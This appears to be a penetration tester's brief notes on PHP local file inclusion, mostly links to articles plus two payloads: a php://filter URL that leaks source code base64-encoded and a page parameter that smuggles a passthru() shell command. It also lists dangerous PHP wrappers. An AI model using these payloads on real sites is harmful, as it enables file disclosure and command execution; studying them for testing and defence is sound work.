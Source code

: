#

https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601

## php filter

https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/

```
http://example.com/?m=php://filter/convert.base64-encode/resource=index
```

## wrappers

see php wrappers

dangerous : 

- data
- php
- file, http, ftp
- expect <-- cmd injection

https://github.com/s-n-t/presentations/blob/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf

## evasion

https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work

## dumb things

Sometimes, some this work : 

```
/index.php?page=about'.passthru('ping%20-c%203%20192.168.49.160').'
```


https://blog.clever-age.com/fr/2014/10/21/owasp-local-remote-file-inclusion-lfi-rfi/

